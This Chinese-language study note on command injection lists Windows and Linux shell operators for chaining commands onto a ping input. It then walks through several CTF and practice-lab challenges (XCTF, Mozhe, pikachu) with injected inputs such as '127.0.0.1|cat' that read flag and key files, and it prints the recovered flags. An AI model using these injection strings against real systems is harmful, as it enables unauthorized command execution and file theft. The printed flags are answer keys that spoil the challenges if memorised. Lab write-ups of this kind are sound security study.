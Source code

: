 #### RCE

remote command|code execute，用户输入的参数将被用来执行系统命令或当作脚本执行，而攻击者传递恶意参数来查看敏感文件，进而控制后台系统

Windows系列支持的管道符如下所示：

“|” : 直接执行后面的语句。例如：ping 127.0.0.1| whoami
“||” : 如果前面执行的语句执行出错，则执行后面的语句，前面的语句只能为假。例如： ping 1234.1 || whoami
“&” : 如果前面的语句为假则直接执行后面的语句，前面的语句可真可假 。例如： ping 127.0.0.1 & whoami
“&&” : 如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句只能为真。例如： ping 127.0.0.1 && whoami



Linux系统支持的管道符如下所示：

“;” : 执行完前面的语句再执行后面的。 例如： ping 127.0.0.1 ; whoami
“|” : 显示后面语句的执行结果。列如：ping 127.0.0.1 | whoami.
“||” : 当前的语句执行出错时，执行后面的语句。 例如： ping 1472.1 || whoami
“&” : 如果前面得语句为假则直接执行后面的语句，前面的语句可真可假，例如：ping 127.0.0.1 | & whoami
“&&” : 如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。例如： ping 127.0.0.1 && whoami



1. [攻防世界 (xctf.org.cn)](https://adworld.xctf.org.cn/challenges/details?hash=64f69abb-bca4-4731-bedc-19fef5443e0b_2&task_category_id=3)command_execution

   1. 网页显示ping功能，输入：127.0.0.1|ls

      回显：index.php

   2. 输入：127.0.0.1|ls /home

      回显：flag.txt

   3. 输入 cat /home/flag.txt

      回显：cyberpeace{1d347f1ef8bd6d836aa52622283dda39}

2. [命令注入执行分析_命令执行_在线靶场_墨者学院_专注于网络安全人才培养 (mozhe.cn)](https://www.mozhe.cn/bug/detail/RWpnQUllbmNaQUVndTFDWGxaL0JjUT09bW96aGUmozhe)

   1. 网页显示ping功能，输入：127.0.0.1|ls

      弹窗显示IP格式不正确

      禁用前端js脚本

   2. 输入：127.0.0.1|ls

      回显：

      index.php
      key_2805693832572.php
      static

   3. 输入：127.0.0.1|cat key_2805693832572.php

      没有回显

   4. 重定向，输入127.0.0.1|cat<key_2805693832572.php

      回显：mozhe8329ad754d65f846b468a5a4016

3. pikachu_windows本地靶场:

   1. 输入：127.0.0.1|dir

      cmd编码方式为gbk，浏览器默认utf-8，中文乱码，不过不影响英文

   2. Type 对应文件即可查看

4. pikachu_RCE_eval函数：输入php代码，php代码就被执行了



